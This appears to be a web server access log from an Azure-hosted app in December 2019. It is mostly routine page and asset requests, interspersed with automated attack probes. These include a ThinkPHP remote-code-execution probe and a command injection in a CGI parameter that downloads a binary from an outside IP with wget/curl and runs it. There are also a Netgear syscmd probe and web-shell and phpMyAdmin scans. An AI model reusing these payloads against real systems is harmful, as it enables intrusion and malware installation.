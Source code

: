 ```log
131.91.4.38 - - [04/Dec/2019:18:43:41 +0000] "GET /polyfills-es2015.0ef207fb7b4761464817.js HTTP/1.1" 200 37293 "http://swarm-fau.eastus.cloudapp.azure.com/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:18:43:41 +0000] "GET /runtime-es2015.e8a2810b3b08d6a1b6aa.js HTTP/1.1" 200 1485 "http://swarm-fau.eastus.cloudapp.azure.com/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:18:43:41 +0000] "GET /styles.1ac3affe9504b81b5cc4.css HTTP/1.1" 200 214050 "http://swarm-fau.eastus.cloudapp.azure.com/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:18:43:44 +0000] "GET /main-es2015.04808a82e8c15ad0093a.js HTTP/1.1" 200 1848369 "http://swarm-fau.eastus.cloudapp.azure.com/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:18:43:45 +0000] "GET /favicon.ico HTTP/1.1" 200 948 "http://swarm-fau.eastus.cloudapp.azure.com/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
71.6.232.9 - - [04/Dec/2019:18:54:01 +0000] "GET / HTTP/1.1" 200 406 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36"
185.153.196.97 - - [04/Dec/2019:19:25:05 +0000] "GET /index.php?s=/Index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP HTTP/1.1"200 406 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36"
87.15.70.139 - - [04/Dec/2019:19:27:32 +0000] "GET / HTTP/1.1" 200 808 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36"
149.202.251.78 - - [04/Dec/2019:20:03:18 +0000] "POST /cgi-bin/protected/discover_and_manage.cgi?action=snmp_browser&hst_id=none&snmpv3_profile_id=&ip_address=|cd /tmp; wget http://80.82.67.184/richard; curl -O http://80.82.67.184/richard; chmod +x richard; ./richard;/evil.php|php&snmp_ro_string=public&mib_oid=system&mib_oid_manual=.1.3.6.1.2.1.1&snmp_version=1 HTTP/1.1" 405 182 "-" "-"
131.91.4.38 - - [04/Dec/2019:20:10:07 +0000] "GET / HTTP/1.1" 200 406 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
121.7.25.190 - - [04/Dec/2019:20:54:57 +0000] "GET / HTTP/1.1" 200 808 "-" "-"
131.91.4.38 - - [04/Dec/2019:21:10:36 +0000] "GET /assets/raw.jpg HTTP/1.1" 200 23609 "http://swarm-fau.eastus.cloudapp.azure.com/data" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:21:10:36 +0000] "GET /assets/intelligent.jpg HTTP/1.1" 200 216628 "http://swarm-fau.eastus.cloudapp.azure.com/data" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:21:10:43 +0000] "GET /assets/d3.jpg HTTP/1.1" 200 108869 "http://swarm-fau.eastus.cloudapp.azure.com/data/raw" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:21:10:43 +0000] "GET /assets/tabular.png HTTP/1.1" 200 27366 "http://swarm-fau.eastus.cloudapp.azure.com/data/raw" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:21:18:38 +0000] "GET /data/raw/table HTTP/1.1" 200 406 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
131.91.4.38 - - [04/Dec/2019:21:43:56 +0000] "GET /data/raw/graph HTTP/1.1" 200 406 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
212.174.63.188 - - [04/Dec/2019:22:43:20 +0000] "GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=busybox&curpath=/&currentsetting.htm=1 HTTP/1.1" 400 182 "-" "Mozilla/5.0"
107.6.150.242 - - [04/Dec/2019:23:16:56 +0000] "GET / HTTP/1.1" 200 406 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36"
35.237.135.188 - - [05/Dec/2019:02:28:07 +0000] "GET /652C760B25678F3C633C84FD3C780958.php HTTP/1.1" 200 808 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36"
35.237.135.188 - - [05/Dec/2019:02:28:07 +0000] "GET /ca38d168d4aef6357c4c40a39bf313d0.php HTTP/1.1" 200 808 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36"
35.237.135.188 - - [05/Dec/2019:02:28:07 +0000] "GET /phpMyAdmin/index.php HTTP/1.1" 200 808 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36"
```